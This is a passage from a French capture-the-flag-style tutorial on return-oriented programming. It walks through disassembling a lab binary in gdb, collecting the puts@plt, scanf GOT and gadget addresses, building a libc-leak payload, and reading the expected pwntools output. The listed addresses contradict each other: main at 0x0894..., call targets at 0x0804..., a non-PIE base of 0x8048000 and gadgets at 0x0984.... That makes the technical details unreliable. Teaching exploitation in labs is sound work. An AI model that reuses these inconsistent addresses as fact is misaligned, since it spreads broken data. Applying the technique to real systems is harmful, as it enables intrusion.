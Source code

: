```raw
root@5859be6f9e32:~# gdb rop
gdb-peda$ disassemble main
Dump of assembler code for function main:
   0x089491b1 <+0>:	push   ebp
   0x089491b3 <+1>:	mov    ebp,esp
   0x089491b5 <+3>:	and    esp,0xfffffff0
   0x089491b8 <+6>:	call   0x80491ce <__x86.get_pc_thunk.ax>
   0x089491bd <+11>:	add    eax,0x2e43
   0x089491c2 <+16>:	call   0x8049172 <input>
   0x089491c7 <+21>:	mov    eax,0x0
   0x089491cc <+26>:	leave  
   0x089491cd <+27>:	ret    
End of assembler dump.
```
```
0x089491b1 <+0>:	push   ebp
```

Nous avons donc l'adresse du main: `0x089491b1`.

Pour récapituler nous avons :
* `main` 0x089491b1 
* `puts@plt` 0x08849f30
* `__isoc99_scanf@GLIBC_2.7` 0x0884cf14
* Et des gadgets :
   * 0x09849243 `pop ebp ; ret`
   * 0x09849241 `pop ebx ; ret`

Notre premier payload va donc être :
`payload = addrPLTputs + addrPopEbxRet + addrGOTscanf + addrMain`

Avec tout ça nous pouvons compléter [part1.py](./exercices/part1.py)
Vous pouvez utiliser **vim** ou **nano** pour éditer le fichier.

Quand vous le lancez avec `python part1.py` vous devriez avoir une sortie qui ressemble à cela
```
root@9e139f0c7ef4:~# python part1.py 
[*] '/root/rop'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] '/lib32/libc.so.6'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process './rop': pid 32
[*] Construct ropchain
[*] Get scanf leak
 
\x80���
Input:
[*] Stopped process './rop' (pid 32)
```
Si ce n'est pas le cas, c'est qu'une des adresses entrée dans le fichier python est invalide.

